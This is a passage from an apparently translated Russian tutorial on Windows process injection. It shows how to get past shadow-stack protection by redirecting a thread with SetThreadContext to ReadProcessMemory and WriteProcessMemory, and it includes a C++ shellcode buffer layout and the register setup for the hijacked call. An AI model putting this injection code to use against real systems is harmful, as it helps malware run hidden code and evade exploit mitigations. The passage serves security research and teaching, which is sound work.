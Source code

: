 
Если вы заметили, в начале, WriteProcessMemory модифицирует теневой стек. Поэтому нам надо подправить шеллкод, чтобы он учитывал расстояние до теневого стека:


```cpp
BYTE Shellcode[] = {
// Заглушка для адреса возврата из ReadProcessMemory к бесконечному jmp циклу
0xEF , 0xBE , 0xAD , 0xDE , 0xEF , 0xBE , 0xAD , 0xDE ,
// Место, для теневого стека
0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 ,
0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 ,
0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 ,
0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 ,
0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 , 0x00 ,
// Сам шеллкод начинается тут (+0x30)
0xEB , 0xFE , 0x01 , 0x23 , 0x45 , 0x67 , 0x89 , 0xAA ,
0xBB , 0xCC , 0xDD , 0xEE , 0xFF , 0x90 , 0x90 , 0x90
};
```


Теперь нам надо последовательно вызвать ReadProcessMemory и WriteProcessMemory. После возврата из ReadProcessMemory, мы можем вместо выполнения шеллкода (теперь он в лежит в неисполняемой памяти), просто прыгнуть назад к бесконечному циклу:

![alt_text](/assets/images/translations/nina/img52.jpg)


Это дает время вредоносному процессу вызвать SetThreadContext, для указания RIP на WriteProcessMemory и переиспользовать RSP из ReadProcessMemory. Мы можем прочитать шеллкод из того же места, которое было скопировано ReadProcessMemory (+0х30 байт до непосредственно тела шеллкода) и выбрать любую страницу с правами на выполнение (предполагая что есть RX секции).


```cpp
// Берем целевой процесс, для записи шеллкода
Success = SetExecutionContext(
    &ThreadHandle,
// Устанавливаем rip, для чтения шеллкода
    &_WriteProcessMemory,
// RSP указывает на прежний адрес
    &StackLocation,
// RCX: handle целевого процесса
    (HANDLE)-1,
// RDX: буфер для шеллкода
    ShellcodeLocation,
// R8: адрес, с которого будет записываться
    (LPBYTE)StackLocation + 0x30 ,
// R9: размер для записи
    sizeof (Shellcode) - 0x30 ,
    NULL
);
```
